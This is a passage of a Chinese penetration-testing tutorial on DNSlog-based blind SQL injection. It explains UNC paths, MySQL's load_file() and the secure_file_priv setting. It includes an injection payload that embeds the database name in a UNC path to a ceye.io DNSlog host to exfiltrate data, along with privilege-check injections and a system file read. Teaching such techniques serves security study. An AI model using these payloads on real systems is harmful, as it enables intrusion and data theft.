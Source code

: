 （5）无回显的XXE（Blind XXE）

### 3.1.SQL注入盲注

在sql注入时为布尔盲注、时间盲注，注入的效率低且线程高容易被waf拦截，又或者是目标站点没有回显

#### 3.1.1.UNC路径

[UNC路径](https://baike.baidu.com/item/UNC%E8%B7%AF%E5%BE%84/3231808)

注意：读取远程文件就要用到UNC路径

UNC路径就是类似\\\\softer这样的形式的网络路径,就是\\\\。

例子：`\\\www.mss.cn\2.txt`

注意：这种用反斜杠是微软喜欢反着来，在微软文件夹里查询需要反斜杠；如果是在别的地方如url里查询就要用正斜杠&lt;code&gt;/&lt;/code&gt;，即//www.mss.cn/2.txt，如果硬要用反斜杠，得另外加两个反斜杠来转义，即要四个反斜杠，很麻烦。如：(select load\_file(concat('\\\\\\\\',(select datab ase()),'.xxxx.ceye.io\\\\abc')))

#### 3.1.2.mysql的load\_file()函数条件和secure\_file\_priv设置

例子：

select load\_file('/etc/hosts')

例如上面的例子是有条件限制的：

1、必须有权限读取并且文件必须完全可读。

```mysql
and (select count(*) from mysql.user)>0 /*如果结果返回正常，说明具有读写权限.*/
and (select count(*) from mysql.user)>0 /*返回错误，应该是管理员给数据库账户降权了*/
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bbb6f22b697ee78cd5aff7bde2ebaa9317d5f676.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-bbb6f22b697ee78cd5aff7bde2ebaa9317d5f676.png)

我们查看mysql这个库中user表中的字段有这些[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-efc5843f31cfa6e3672ebe56f920788bd6e829c4.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-efc5843f31cfa6e3672ebe56f920788bd6e829c4.png)

通过DNSlog盲注需要用的load\_file()函数，所以一般得是root权限。`show variables like '%secure%'`;查看load\_file()可以读取的磁盘。  
（1）当secure\_file\_priv为空，就可以读取磁盘的目录。  
（2）当secure\_file\_priv为G:\\，就可以读取G盘的文件。  
（3）当secure\_file\_priv为null，load\_file就不能加载文件。（注意NULL不是我们要的空，NULL和空的类型不一样）

secure\_file\_priv设置通过设置my.ini来配置，不能通过SQL语言来修改，因为它是只读变量，secure\_file\_priv设置具体看这里：

若secure\_auth为ON，则用以下方法变为OFF（mysql查询默认是不区分大小写的）  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-7c1ba8c04f574056ffa293fe2f0ef96e90d15ec4.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-7c1ba8c04f574056ffa293fe2f0ef96e90d15ec4.png)  
secure\_file\_priv不能通过此方法修改，因为报错为Variable 'XXX' is a read only variable。报错原因及修改方法为：参数为只读参数，需要在mysql.ini配置文件中更改该参数，之后重启数据库  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6e95ccb62cddc047fef526b1c6db49293ab043bf.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-6e95ccb62cddc047fef526b1c6db49293ab043bf.png)  
将secure\_file\_priv为空的正确方法（注意NULL不是我们要的空，NULL和空的类型不一样）  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-00f25371aa4f7080900a79376d1d8b3e6890515c.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-00f25371aa4f7080900a79376d1d8b3e6890515c.png)  
secure\_file\_priv=""就是可以load\_flie任意磁盘的文件。
